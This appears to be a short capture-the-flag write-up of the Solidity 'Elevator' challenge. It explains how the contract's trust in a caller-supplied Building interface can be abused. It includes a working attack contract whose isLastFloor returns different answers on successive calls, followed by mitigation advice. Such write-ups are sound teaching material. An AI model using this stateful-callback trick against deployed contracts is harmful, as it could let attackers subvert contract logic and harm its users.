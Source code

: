 # Elevator Contract Vulnerability and Mitigation in Solidity

The main problem with the Elevator contract lies in its reliance on an external contract, `Building`, to determine whether the current floor is the last floor using the `isLastFloor` function. Specifically, the vulnerability arises from the fact that the Elevator contract trusts the `Building` interface implementation provided by `msg.sender`.

Here's the problematic code:

```solidity
Building building = Building(msg.sender);

if (! building.isLastFloor(_floor)) {
  floor = _floor;
  top = building.isLastFloor(floor);
}
```

An attacker can make a harmful contract using the Building interface and tamper with the isLastFloor function to take advantage of the Elevator contract. This occurs because the Elevator contract doesn't set restrictions on how isLastFloor is implemented.

```solidity
contract ElevatorHack {
Elevator private immutable target;
uint private countCalls;

    constructor(address _target) {
        target = Elevator(_target);
    }

    function attack() external {
        target.goTo(1);
        require(target.top(), "is not top floor");
    }

    function isLastFloor(uint) external returns (bool) {
        countCalls++;
        return countCalls > 1;
    }
```

}

The attacker's contract can alter the isLastFloor function's return value or use other methods to trick the Elevator contract, enabling the attacker to reach the top floor.

To address this problem, the Elevator contract should not depend on external contracts for crucial functions like isLastFloor. Instead, it should have built-in logic to check if a floor is the last one or use strict validation and access control to allow only trusted contracts to interact with it.
